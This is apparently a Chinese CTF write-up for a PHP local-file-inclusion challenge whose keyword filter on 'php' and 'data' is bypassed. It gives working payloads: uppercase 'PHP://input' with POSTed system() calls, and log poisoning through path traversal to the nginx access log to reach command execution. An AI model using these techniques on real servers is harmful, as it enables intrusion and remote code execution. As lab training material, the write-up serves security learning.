






```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-16 11:26:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

过滤了php

过滤了data


### 第一种

大小写绕过

GET传入

```
?file=PHP://input
```

POST传入

```
<?php system("ls");?>
```



读取fl0g.php

GET

```
?file=PHP://input
```

POST

```
<?php system("tac fl0g.php");?>
```




### 第二种

日志注入

读取日志文件

```
?file=../../../../../../../var/log/nginx/access.log
```



抓包修改UA






成功写入

GET

```
?file=../../../../../../../var/log/nginx/access.log
```

POST

```
a=system("ls");
```



命令执行成功